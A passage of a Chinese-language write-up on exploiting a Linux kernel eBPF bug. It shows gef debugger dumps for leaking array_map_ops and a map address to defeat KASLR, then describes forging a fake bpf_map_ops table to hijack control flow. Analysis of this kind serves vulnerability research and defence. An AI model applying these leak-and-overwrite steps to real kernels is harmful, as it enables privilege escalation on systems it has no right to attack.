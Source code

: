 首先是地址泄露， `bpf_map` 有一个`const struct bpf_map_ops *ops;` 字段，当我们创建的map是`BPF_MAP_TYPE_ARRAY` 的时候保存的是`array_map_ops`, `array_map_ops` 是一个全局变量，保存在rdata段，通过它我们就可以计算kaslr的偏移，绕过kaslr, 同时运行的时候可以在下面`wait_list` 处泄露出map 的地址

```
gef➤  p/a *(struct bpf_array *)0xffff88800d878000              
$5 = {  
  map = {          
    ops = 0xffffffff82016340 &lt;array_map_ops&gt;,//&lt;-- 泄露内核地址
    inner_map_meta = 0x0 &lt;fixed_percpu_data&gt;,
    security = 0xffff88800e93f0f8,
    map_type = 0x2 &lt;fixed_percpu_data+2&gt;,
    key_size = 0x4 &lt;fixed_percpu_data+4&gt;,
    value_size = 0x2000 &lt;irq_stack_backing_store&gt;, 
    max_entries = 0x1 &lt;fixed_percpu_data+1&gt;,
//...    
    usercnt = {    
//..
      wait_list = {
        next = 0xffff88800d8780c0,//&lt;-- 泄露 map 地址
        prev = 0xffff88800d8780c0
      }
    },
    writecnt = 0x0 &lt;fixed_percpu_data&gt;
  },
  elem_size = 0x2000 &lt;irq_stack_backing_store&gt;,
  index_mask = 0x0 &lt;fixed_percpu_data&gt;,
  aux = 0x0 &lt;fixed_percpu_data&gt;,
  {
    value = 0xffff88800d878110,//&lt;-- r7
    ptrs = 0xffff88800d878110,
    pptrs = 0xffff88800d878110
  }
}
```

### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E5%86%85%E5%AD%98%E5%86%99"></a>任意内存写

我们可以用`r7` 写入 `ops = 0xffffffff82016340 &lt;array_map_ops&gt;`, 改成我们自己的`fake_ops`, 因为前面我们已经泄露出map 的地址了，那么完全可以用`map_update_elem` 伪造一个`ops`, 然后改一下指针就可以劫持控制流了，zdi上的writeup 用了一个更好的办法。

```
gef➤  p/a *(struct bpf_map_ops *)0xffffffff82016340
$11 = {
  map_alloc_check = 0xffffffff8116ec70 &lt;array_map_alloc_check&gt;,
  map_alloc = 0xffffffff8116fa00 &lt;array_map_alloc&gt;,
  map_release = 0x0 &lt;fixed_percpu_data&gt;,
  map_free = 0xffffffff8116f2d0 &lt;array_map_free&gt;,
  map_get_next_key = 0xffffffff8116ed50 &lt;array_map_get_next_key&gt;,
  map_release_uref = 0x0 &lt;fixed_percpu_data&gt;,
  map_lookup_elem_sys_only = 0x0 &lt;fixed_percpu_data&gt;,
  map_lookup_batch = 0xffffffff81159b30 &lt;generic_map_lookup_batch&gt;,
  map_lookup_and_delete_batch = 0x0 &lt;fixed_percpu_data&gt;,
  map_update_batch = 0xffffffff81159930 &lt;generic_map_update_batch&gt;,
  map_delete_batch = 0x0 &lt;fixed_percpu_data&gt;,
  map_lookup_elem = 0xffffffff8116edd0 &lt;array_map_lookup_elem&gt;,
  map_update_elem = 0xffffffff8116f1c0 &lt;array_map_update_elem&gt;,
  map_delete_elem = 0xffffffff8116ed80 &lt;array_map_delete_elem&gt;,
  map_push_elem = 0x0 &lt;fixed_percpu_data&gt;,
  map_pop_elem = 0x0 &lt;fixed_percpu_data&gt;,
  map_peek_elem = 0x0 &lt;fixed_percpu_data&gt;,
  map_fd_get_ptr = 0x0 &lt;fixed_percpu_data&gt;,
  map_fd_put_ptr = 0x0 &lt;fixed_percpu_data&gt;,
  map_gen_lookup = 0xffffffff8116f050 &lt;array_map_gen_lookup&gt;,
```